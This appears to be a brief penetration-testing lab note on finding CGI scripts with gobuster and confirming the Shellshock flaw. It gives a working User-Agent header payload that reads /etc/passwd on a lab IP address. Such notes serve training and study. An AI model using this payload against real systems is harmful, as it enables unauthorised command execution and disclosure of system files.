 usually in `/cgi-bin/`
enumeration
```shell-session
gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

curl the script 
```shell-session
curl -i http://10.129.204.231/cgi-bin/access.cgi
```


confirming vulnerability
```shell-session
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi
```

exploitation in [Shellshock](3%20Exploitation/Application%20Exploitation/Shellshock.md)

